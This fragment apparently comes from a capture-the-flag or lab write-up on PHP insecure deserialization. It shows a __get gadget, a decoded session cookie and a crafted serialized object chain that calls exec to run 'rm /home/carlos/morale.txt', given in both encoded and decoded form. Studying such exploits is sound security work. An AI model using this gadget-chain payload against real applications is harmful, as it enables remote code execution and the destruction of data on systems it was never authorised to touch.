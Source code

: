 ```

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

?>
```

```
Set-Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6
InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJmdDE1YW10M3dzZXAxcmMwYzZ2Nm1teThvNmJoa2l2ciI7fQ%3d%3d
```

`#Decoded O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"ft15amt3wsep1rc0c6v6mmy8o6bhkivr";}`

```
CustomTemplate->default_desc_type = "rm /home/carlos/morale.txt";
CustomTemplate->desc = DefaultMap;
DefaultMap->callback = "exec"
```

```
Cookie: session=TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MTc6ImRlZmF1bHRfZGVzY190eXBlIjtzOjI2OiJybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7czo0OiJkZXNjIjtPOjEwOiJEZWZhdWx0TWFwIjoxOntzOjg6ImNhbGxiYWNrIjtzOjQ6ImV4ZWMiO319
```

`#Decoded O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:4:"exec";}}`
